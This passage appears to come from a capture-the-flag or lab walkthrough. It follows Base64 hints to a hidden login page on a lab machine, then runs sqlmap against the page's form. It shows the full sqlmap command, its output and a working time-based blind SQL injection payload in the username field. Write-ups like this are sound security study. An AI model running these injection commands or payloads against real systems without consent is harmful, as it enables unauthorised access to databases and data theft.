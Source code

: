 **Observations:**
- This page is a login form, hinting at credentials being required to proceed.

---

## 8. Summary of Findings So Far
1. Identified Base64-encoded hints leading to `/978345210/index.php`.
2. Discovered a login form at the new directory.

## 9. SQL Injection Testing with sqlmap

### 9.1 Testing for SQL Injection Vulnerability

We noticed that the login form in `/978345210/index.php` might be vulnerable to SQL injection. Using `sqlmap` to test for SQL injection on the `username` and `password` fields:

```bash
sqlmap -u 'http://10.38.1.117:1337/978345210/index.php' --data='username=username&password=password&submit=' --level=5 --risk=3
 https://sqlmap.org                                                                                                                
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:00:41 /2024-12-17/

[22:00:41] [WARNING] provided value for parameter 'submit' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[22:00:41] [INFO] resuming back-end DBMS 'mysql' 
[22:00:41] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=o9dpnvrlnrn...44aiourbv7'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=username' AND (SELECT 4492 FROM (SELECT(SLEEP(5)))juSH)-- mLUu&password=password&submit=
---
[22:00:44] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP, Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.0.12
[22:00:44] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.38.1.117'

[*] ending @ 22:00:44 /2024-12-17/
```
here We can notice that the operating system is Ubuntu and the DBMS is MySQL >= 5.0.12
